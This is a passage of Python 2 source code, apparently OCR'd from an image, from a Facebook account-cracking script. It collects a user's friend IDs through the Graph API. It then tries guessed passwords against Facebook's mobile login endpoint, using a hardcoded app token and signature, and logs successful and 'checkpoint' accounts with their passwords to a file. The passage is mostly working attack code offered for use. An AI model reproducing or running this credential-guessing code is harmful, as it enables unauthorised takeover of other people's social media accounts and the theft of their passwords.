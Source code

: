 		except IOError:
			print ("[!] File Not Found")
			raw_input("\nPress Enter To Back ")
			choice2()
	elif c2m =="0":
		menu2()
	else:
		print ("[!] Fill in correctly")
		choice2_menu()
	rana = str(len(id))
	hamza ("[✓] Total Friends: "+rana)
	time.sleep(0.5)
	hamza ("[✓] The Process Has Been Started.")
	time.sleep(0.5)
	hamza ("[!] Press CTRL Z To Stop Process.")
	time.sleep(0.5)
	print (47*"-")
	
			
	def main(arg):
		global cpb,oks
		user = arg
		try:
		    os.mkdir('save')
		except OSError:
		    pass
		try:
			a = requests.get("https://graph.facebook.com/"+user+"/?access_token="+toket)
			b = json.loads(a.text)
			
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass1 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if "access_token" in q:
				print '\x1b[1;96m[\x1b[1;96mSuccessful\x1b[1;96m]\x1b[1;96m ' + user + ' \x1b[1;96m|\x1b[1;96m ' + pass1
				oks.append(user+pass1)
			else:
				if "www.facebook.com" in q["error_msg"]:
					print '\x1b[1;91m[\x1b[1;91mCheckpoint\x1b[1;91m]\x1b[1;91m ' + user + ' \x1b[1;91m|\x1b[1;91m ' + pass1
					crt = open("save/checkpoint.txt", "a")
					crt.write(user+"|"+pass1+"\n")
					crt.close()
					checkpoint.append(user+pass1)
				else:
					
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass2 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if "access_token" in q:
						print '\x1b[1;96m[\x1b[1;96mSuccessful\x1b[1;96m]\x1b[1;96m ' + user + ' \x1b[1;96m|\x1b[1;96m ' + pass2
						oks.append(user+pass2)
					else:
						if "www.facebook.com" in q["error_msg"]:
							print '\x1b[1;91m[\x1b[1;91mCheckpoint\x1b[1;91m]\x1b[1;91m ' + user + ' \x1b[1;91m|\x1b[1;91m ' + pass2
							crt = open("save/checkpoint.txt", "a")
							crt.write(user+"|"+pass2+"\n")
							crt.close()
							checkpoint.append(user+pass2)
